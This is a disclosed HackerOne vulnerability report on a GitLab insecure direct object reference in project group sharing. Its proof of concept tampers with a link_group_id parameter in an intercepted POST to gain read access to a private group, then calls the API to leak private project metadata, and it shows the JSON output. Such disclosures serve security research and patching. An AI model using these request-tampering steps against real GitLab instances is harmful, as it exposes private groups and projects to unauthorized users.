# Privilege escalation to access all private groups and repositories

## Report Details
- **Report ID**: 131210
- **URL**: https://hackerone.com/reports/131210
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2016-04-15T21:35:59.960Z
- **Disclosed**: 2016-07-27T19:48:27.940Z

## Reporter
- **Username**: jobert
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: gitlab

## Vulnerability Information
# Vulnerability details
There is an insecure direct object reference (IDOR) issue in the group sharing feature for a project. This allows an attacker to get access to the names of private repositories of a group, issues, milestones, and the group its team members.

# Proof of concept
First, lets set up the private group. Go to http://gitlab-instance/groups/new and fill in a name and set its visibility to private. In this example, lets call the group `private-group`. Lets also create a new project in the group at http://gitlab-instance/projects/new?namespace_id=7. The ID in the URL changes depending on the ID of the group that was just created. Lets call the project `secret-project`. Memorize this ID, you need it later in the PoC.

Now to get access to the group without being a member, sign in as some user (`jane`), create a new project and call it `dummy-project`. If Jane now goes to http://gitlab-instance/groups/private-group, a 404 is shown. This is good. Now go to http://gitlab-instance/jane/dummy-project/group_links. Now select a random public group from the dropdown list. Before clicking on the "Share" button , make sure you intercept your network traffic. The request that is being sent to the server will look something like this:

```
POST /jane/dummy-group/group_links HTTP/1.1
Host: 159.xxx.xxx.xxx
...

utf8=%E2%9C%93&authenticity_token=LKWaV6ekT0zFbfFJPKRG78OyIsUvCxObht2Dn1l7p02SEa9IrefoAtdtwX%2F890lUqS2HLCtASPQyvFWmCYtJwA%3D%3D&link_group_id=6&link_group_access=40
```

Now change the `link_group_id` in this request to the ID that you memorized in the first paragraph of this section and forward the request. Your page will now show the name of the private group. If Jane now goes to http://gitlab-instance/groups/private-group, to secret group page is shown. At this point, the private repositories are still hidden.

Since the attacker has read access to the group now, there are some endpoints that leak some private information. By sending a request to the http://gitlab-instance/api/v3/groups/7/projects.json?private_token=ZJirZUgh9QGSQfaGBHDL&search=&per_page=20 endpoint with Jane's API token, the private repositories are leaked. Here's an example response:

```json
[
  {
    "id":11,
    "description":"Super secret description of this project.",
    "default_branch":null,
    "tag_list":[],
    "public":false,
    "archived":false,
    "visibility_level":0,
    "ssh_url_to_repo":"git@gitlab-instance:super-private/secret-project.git",
    "http_url_to_repo":"http://gitlab-instance/super-private/secret-project.git",
    "web_url":"http://gitlab-instance/super-private/secret-project",
    "name":"secret-project",
    "name_with_namespace":"super-private / secret-project",
    "path":"secret-project",
    "path_with_namespace":"super-private/secret-project",
    "issues_enabled":true,
    "merge_requests_enabled":true,
    "wiki_enabled":true,
    "builds_enabled":true,
    "snippets_enabled":false,
    "created_at":"2016-04-15T20:55:19.228Z",
    "last_activity_at":"2016-04-15T20:56:24.988Z",
    "shared_runners_enabled":true,
    "creator_id":1,
    "namespace":{
      "id":7,
      "name":"super-private",
      "path":"super-private",
      "owner_id":null,
      "created_at":"2016-04-15T20:42:01.718Z",
      "updated_at":"2016-04-15T20:42:01.718Z",
      "description":"Super private group.",
      "avatar":
      {
        "url":null
      },
      "share_with_group_lock":false,
      "visibility_level":0
    },
    "avatar_url":null,
    "star_count":0,
    "forks_count":0,
    "open_issues_count":1,
    "public_builds":true
  }
]
```

The repository itself can't be accessed, but there's definitely some information disclosed that the attacker shouldn't have access to. In a real world scenario, someone could iterate over all namespace IDs and get access to all private groups. From there, it could send a request to the GitLab API to gain more knowledge about the private projects.

# Fix
This can be fixed by restricting which groups can be added to a project by a user. The issue itself originates from line 11 of the `Projects::GroupLinksController`, which can be found at `app/controllers/projects/group_links_controller.rb`.

## Attachments
No attachments
